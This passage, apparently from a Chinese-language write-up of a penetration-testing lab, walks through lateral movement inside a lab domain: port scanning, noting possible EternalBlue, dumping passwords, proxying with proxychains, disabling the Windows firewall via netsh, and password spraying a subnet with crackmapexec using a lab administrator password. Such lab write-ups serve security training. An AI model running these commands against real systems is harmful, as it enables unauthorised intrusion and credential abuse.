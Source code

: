 ![截图](a0b7202b2e7102442070a871b4d0425b.png)

然后进行端口扫描看看，域内主机的端口情况：

![截图](952676d729b7acc9f172716c0fb3408f.png)

![截图](450737d9cf1c737eab0c70f1bf64687f.png)

这里可能存在ms17-010的利用（永恒之蓝）

抓取密码：

![截图](87724375f670f59c794b593b0d6df093.png)

<center class="half">
    <img src="1.jpg" width="300"/>
    <img src="2.jpg" width="300"/>
</center>

### 内网横向移动

#### 设置代理

先设置个代理，方便后续的渗透：

![截图](bd67de958679f05eed81cd04f815a7ed.png)

然后在kali上设置代理：

```shell
 vim /etc/proxychains4.conf
```

![截图](e2a60c5b3c84245a53cd7173cec4d762.png)

#### 关闭防火墙

这里我们承接上半部分，我们来关闭防火墙：

```shell
 shell netsh advfirewall set allprofiles state off
```

![截图](0e04f2c6bf01aa8632d6c71540768a47.png)

#### 1、利用密钥上线——密码喷洒

由于我们之前已经抓取了密钥，因此这里我们可以利用密钥来进行尝试登陆。我们利用`crackmapexec`进行密码喷洒，看看有哪些主机是我们可以利用密钥上线的：

```shell
# 域内用户
proxychains -q crackmapexec smb 192.168.52.0/24 -u administrator -p Hongrisec@2019
# 本地账户
proxychains -q crackmapexec smb 192.168.52.0/24 -u administrator -p Hongrisec@2019 --local-auth
```
